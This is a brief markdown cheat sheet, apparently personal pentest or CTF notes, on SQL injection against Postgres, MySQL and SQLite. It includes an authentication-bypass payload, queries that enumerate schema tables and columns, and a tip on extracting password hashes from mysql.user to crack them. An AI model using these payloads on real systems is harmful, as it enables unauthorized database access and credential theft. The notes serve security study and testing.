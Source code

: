 # SQL Injection

[SQL Injection Cheat Sheet | Netsparker](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

### Postgres

**Column names case sensitive!!**

Syntax: `ad' || 'min'  or 1=1;--`

Version: `version()`

Quotes: Single for values, double for column name

[PostgreSQL: Documentation: 13: Chapter 51. System Catalogs](https://www.postgresql.org/docs/13/catalogs.html)

List tables: `select table_name from information_schema.tables`

List columns: `select column_name from information_schema.columns where table_name = 'table'`

### MySQL

**Column names not case sensitive**

Note: `Password` column of `mysql.user` only exists in mariadb. Use `authentication_string` for vanilla mysql. May have to use crackstation.

[mysql.user Table - MariaDB Knowledge Base](https://mariadb.com/kb/en/mysqluser-table/)

### Sqlite

**Column names not case sensitive**

Metadata:

[The Schema Table (sqlite.org)](https://sqlite.org/schematab.html)

List tables and sql: `select tbl_name, sql from sqlite_master `